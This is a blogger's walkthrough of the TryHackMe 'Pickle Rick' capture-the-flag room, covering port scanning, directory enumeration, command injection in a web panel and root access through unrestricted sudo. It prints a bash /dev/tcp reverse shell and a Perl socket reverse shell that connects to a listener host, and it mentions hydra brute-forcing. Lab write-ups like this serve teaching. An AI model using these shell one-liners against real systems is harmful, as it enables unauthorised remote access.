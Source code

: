 ```yaml
---
layout: posts
title: Pickle Rick Writeup
categories: [TryHackMe]
tags: [Command Injection, Web shell, Directory Enumeration, Dirsearch]
---
```


# Pickle Rick
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
Check it out here: [TryHackMe](https://www.tryhackme.com/room/picklerick)

# ~$ Preface
  Hey there, I'll be honest this was the first time I used a web shell lol and it was indeed much fun, I'll walk you through how I went about it XD, funfact Rick&Morty has been my go-to fav cartoon since 2015,  eyepatch morty is my buddy and I genuinely have a deep seated hatred for Jerry and his insipidity ;) but as always I'll be leaving hints before I drop the spoilers, and by spoilers I mean the answers lol just kidding you won't find glaring answers here buddy hehee
  
  ![image](https://i.imgur.com/BkKtAkO.png)
  
# ~$ Hints 
- source page
- command injection?
- web shells
- directory enumeration
- extensions.

A'ight so as always, a port scan first::
```
┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ nmap -sC -sV 10.10.220.220 -Pn -vv -p 1-1024 -T4 -o nmap
Warning: The -o option is deprecated. Please use -oN
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 18:18 WAT
NSE: Loaded 155 scripts for scanning.
Initiating Connect Scan at 18:18
Scanning 10.10.220.220 [1024 ports]
Discovered open port 80/tcp on 10.10.220.220
Not shown: 1022 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:86:91:05:1b:b6:3c:1a:91:a3:6b:a6:fe:a3:28:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOejy/mcAGAdwTSazZu0TOhmJzXnVoAlpDkpPFEnxBppNiIDf11gJkgAz/kNJ/Xzpy5/r4EcBm5VlyD1OHbgp4BB7/+XmWFLIiombdwcGEYrnXJ86DdY8JPu4enMn85mhi2eI8/QwHk5PmaIBufGk6YAdrAunR2T3UfZriuJB4MXQw4ElicxJ+EEuaaMirwhVx8p9i1HqC2c5U95N22y/CBDETIgGZHkZQkMC2HpHREbcs7tTPQdPbv9TSL7Ie0Tvdi6LFAMx2zZmfBprnAUT6DsNvRmu5uyGisQpw4STgwjPVJ/BJInFEHPS25Afv/2BVMfhX3af6yJQA4QPuBKJF
|   256 91:18:52:30:3e:b6:e0:29:0d:72:91:17:b7:64:05:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEehoL4UxfT2BMPVEAxmPHcDhmZhmzE1AD2zqGHtqgDLkdjKE3xMgqVle5l3DNb6D/44/pTyklMJWmPTTY9t8S0=
|   256 d2:1b:90:6d:32:2f:cb:0e:64:af:61:e7:60:34:95:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKcg2XsRFJ0X32sAAhVOLEn/LubUccaCEVVDQV6slCHD
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.34 seconds
```
Okay, just ssh and http hmph...

Straight up, I visited the site::
![image](/assets/img/posts/Rick&Morty/r&mLanding.png)

Found nothing but a message from rick in dire need of our help to revert back to human... Quickly I view the page source, always view the source! therein I find this commented out:
```

    Note to self, remember username!

    Username: R1ckRul3s
    
 ```
 Okay Classic rick keeping hidden reminders for himself, I try the username on port 22 and bruteforce the creds with hydra and realized it could only be 2 things: apparently Rick's pass isn't in a wordlist OR the acquired username is not for ssh, while hydra was still trying I resort to my go-to dir enum tool, Dirsearch:)
 fire her up and get these hidden directories:
 
 ```
 ┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ dirsearch -u 10.10.220.220 -w /usr/share/wordlists/dirb/common.txt -t 30

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/azazel/.dirsearch/reports/10.10.220.220_22-04-11_18-52-02.txt

Error Log: /home/azazel/.dirsearch/logs/errors-22-04-11_18-52-02.log

Target: http://10.10.220.220/

[18:52:10] Starting: 
[18:52:19] 301 -  315B  - /assets  ->  http://10.10.220.220/assets/
[18:52:34] 200 -   1KB - /index.html
[18:52:40] 200 -  882B  - /login.php
[18:52:48] 200 -   17B  - /robots.txt
[18:52:50] 403 -  301B  - /server-status

Task Completed
                                        
 ```
 Nothing much only interesting dir is a login page and the robots.txt, checked that out to see any pages disallowed to be crawled and Instead see Rick's catch phrase
 
 ```
 
 Wub############ub
 
 ```
  ![image](https://media2.giphy.com/media/l41lI4bYmcsPJX9Go/giphy.gif?cid=790b76115528c812b615af1876ff62340969d6ac03f0e5bc&rid=giphy.gif&ct=g)
 
 Welp, we have a username and possibly a pass, but goes where exactly? Found a login page and try the creds there:
 
 ![image](/assets/img/posts/Rick&Morty/rick&mortyloginpage.png)
 
 And then we're greeted with an input field which accepts commands--Command Injection took advantage of this and tried to find and read all the ingredients but there is some sort of input filter that prevents us from reading files with cat, tail, head but not less and find lmao! all of what we need, hehee:
 ![image](/assets/img/posts/Rick&Morty/rick&mortyinputfilter.png)
 
 I could grab all the ingredients through this method but that's no fun! and it also felt somewhat restrictive and defeats the initial access idea.
 Now to upload a shell!

 ![iamge](/assets/img/posts/Rick&Morty/rick&mortydirlis.png)
 
 A classic Bash one liner would work::
```
bash -c >& /dev/tcp/ip/8888 0>&1
```
but I felt like exploring other shell one liners out of curiousity I resorted to trying out Perl, grabbed a Reverse shell one liner from [PentestMonkey](https://pentestmonkey.net/):

```
perl -e 'use Socket;$i="10.8.45.27";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
NB:: Adjust the parameters to receive the shell, you wouldn't to be sending me a shell, would you now?
 
We're in! and now to comfortably read the Sup3rS3cretPickl3Ingred.txt file

```
www-data@ip-10-10-60-92:/var/backups$ cat Sup3rS3cretPickl3Ingred.txt
mr. ###### hair
```
Found the second ingredient in Rick's Home directory::
```
www-data@ip-10-10-60-92:/home/rick$ cat second\ ingredients
1 #### tear
```

And as compensation and horrible security, the www-data user who we are logged in as has sudo permissions to execute EVERYTHING! sheesh!

```
Matching Defaults entries for www-data on ip-10-10-60-92.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on ip-10-10-60-92.eu-west-1.compute.internal:
    (ALL : ALL) ALL
```

To make ourselves root and grab the last ingredient::

```
www-data@ip-10-10-60-92:/home/rick$ sudo su
root@ip-10-10-60-92: cd /root; cat 3rd.txt
```
And that's it! We saved Rick and got to see jerry tears too --the joy:-)

 
 
 
 
 
 
 
 
 
 
 
